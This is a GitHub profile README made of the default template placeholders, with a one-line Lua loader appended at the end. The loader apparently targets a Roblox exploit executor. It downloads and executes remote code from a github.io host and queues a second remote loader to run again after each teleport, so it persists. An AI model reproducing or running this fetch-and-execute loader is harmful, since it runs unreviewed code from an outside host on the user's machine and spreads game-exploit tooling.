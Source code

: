 - 👋 Hi, I’m @Tegalindomesia
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Tegalindomesia/Tegalindomesia is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
if getgenv().AlreadyExecutedMrJack then return end;getgenv().AlreadyExecutedMrJack=true;task.spawn(function()local queue_on_teleport=syn and syn.queue_on_teleport or queue_on_teleport or queueonteleport;if queue_on_teleport then pcall(function()queue_on_teleport'loadstring(game:HttpGet"https://thedragonslayer2.github.io/AutoExec.html")()'end)end end)loadstring(game:HttpGet"https://thedragonslayer2.github.io")()
